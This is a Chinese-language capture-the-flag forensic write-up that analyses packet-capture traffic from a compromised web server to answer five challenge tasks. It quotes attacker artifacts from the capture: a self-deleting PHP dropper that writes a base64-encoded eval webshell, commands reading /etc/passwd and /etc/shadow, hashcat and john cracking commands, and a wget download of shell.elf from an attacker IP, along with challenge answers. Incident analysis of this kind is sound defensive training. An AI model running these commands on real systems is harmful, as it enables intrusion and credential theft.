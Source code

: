 | 题目名称 | 题目方向 | 题目难度 |
| --- | --- | --- |
| 被攻击的流量 | 安全防护 | \*\* |

A集团的WebServer服务器被黑客入侵，该服务器的Web应用系统被上传多个恶意文件，并且被攻击者修改了系统密码。幸运的是一台流量监控服务器捕捉到了黑客攻击的全部手法，您的团队需要帮助该公司分析黑客的攻击行为，找到修改后的系统密码，并对黑客攻击的漏洞进行修复和加固！

### 任务一

打开大部分http的GET请求，使用WireShark都可在流量中的user-agent字段可发现指纹纹: w13scan

![1686536274187](https://oss.edu.sangfor.com.cn/file/20240704/240704194050584duyl8.png)

Sangfor{w13scan}

### 任务二

快捷方法为根据info筛选出/index.php/index/ajax/upload这一路由的POST请求，即可发  
现写入webshell的流量

审计流量可得有一条流量分片传输文件：

```
&lt;?php system("echo `echo PD9waHAgQGV2YWwoJF9QT1NUW2tdKTs/Pg==|base64 - d`&gt;dbe6b48e012a24557469ab128a6409ac.php");@unlink ("midshell.php");?&gt;
```

可以观察出这是一个自删除的临时马，其中写入webshell的系统命令是：

```
echo `echo PD9waHAgQGV2YWwoJF9QT1NUW2tdKTs/Pg==|base64 - d`&gt;dbe6b48e012a24557469ab128a6409ac.php
```

![16865361419020](https://oss.edu.sangfor.com.cn/file/20240704/240704194050629ubzo1.png)

___

___

### 任务三

在流2464中

![17200845128027](https://oss.edu.sangfor.com.cn/file/20240704/240704194050447afy2m.png)

流量中可以发现攻击者执行了读/etc/passwd和/etc/shadow文件的命令，分别是:

```
cat /etc/passwd
echo "webuser123"|sudo -S cat /etc/shadow
```

使用john可对root密码进行爆破：

```
# hashcat爆破
hashcat --force -m 1800 -a 0 shadow.txt top1000.txt -o res.txt

# john爆破
unshadow passwd.txt shadow.txt &gt; rawdata.txt john rawdata.txt
```

可得root密码为abcd123

![17200845100677](https://oss.edu.sangfor.com.cn/file/20240704/2407041940504133bl7s.png)

### 任务四

在2470的包中，找到下载恶意文件命令

![1720092669829](https://oss.edu.sangfor.com.cn/file/20240704/240704194050494n06id.png)

wget http://192.168.186.132:8000/shell.elf

### 任务五

攻击者执行最后一次的Linux命令是( )。

cat /var/www/html/hello.txt

![1720093088110](https://oss.edu.sangfor.com.cn/file/20240704/240704194050502xxl94.png)